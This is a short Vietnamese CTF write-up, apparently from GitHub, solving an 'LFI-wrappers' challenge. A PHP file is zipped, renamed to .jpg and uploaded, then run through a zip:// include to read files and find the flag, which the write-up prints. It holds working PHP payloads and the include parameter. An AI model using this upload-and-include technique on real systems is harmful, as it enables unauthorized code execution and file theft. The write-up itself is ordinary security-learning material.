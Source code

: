 ![image](https://github.com/user-attachments/assets/3569ec69-8943-40bc-a0bc-c77d05b6d927)![image](https://github.com/user-attachments/assets/19ec07a3-e34b-4582-8222-acf9129bff07)

Ta thấy tên bài là LFI-wrappers lại chỉ cho upload img . Dạo 1 vòng thì tôi tìm thấy 1 hướng khai thác khá phù hợp 
trên HackTricks đó là tạo 1 file php => nén zip => đổi sang đuôi jpg => upload...

![image](https://github.com/user-attachments/assets/ebbf953c-08d3-412b-9652-7d0dc18a09d6)

Let's go!!!!
tạo file a.php với nội dung
```
<?php
        echo file_get_contents("index.php");
?>
```
![image](https://github.com/user-attachments/assets/acb1ee1a-6414-43d1-a229-776e6378b5ad)

sau khi upload thành công, vào page source ta thấy đường dẫn tới nơi chứa file

![image](https://github.com/user-attachments/assets/dfbb0eea-6e8d-48c9-a431-473b40192e31)

sử dụng ```page=zip://tmp/upload/8xTzPkxzi.jpg%23a```

![image](https://github.com/user-attachments/assets/3570f029-e80d-44c9-b81f-209f19c0b1b4)

Sử dụng đoạn code 
```
<?php
  $scan = scandir('./'); 
  foreach($scan as $file){
    echo "~ $file";
  }
?>

```
![image](https://github.com/user-attachments/assets/666f0d4d-5c29-42ed-a42f-1c710faabdd5)

=> flag-mipkBswUppqwXlq9ZydO.php

```
<?php
        echo file_get_contents("./flag-mipkBswUppqwXlq9ZydO.php");
?>
```

![image](https://github.com/user-attachments/assets/726da82f-e48c-4500-b909-6e6640cef163)

=))) trắng tinh nhưng đừng lo , vào page-source

![image](https://github.com/user-attachments/assets/bb2caa06-02a4-457d-bead-ce338e44e7d4)

=> lf1-Wr4pp3r_Ph4R_pwn3d
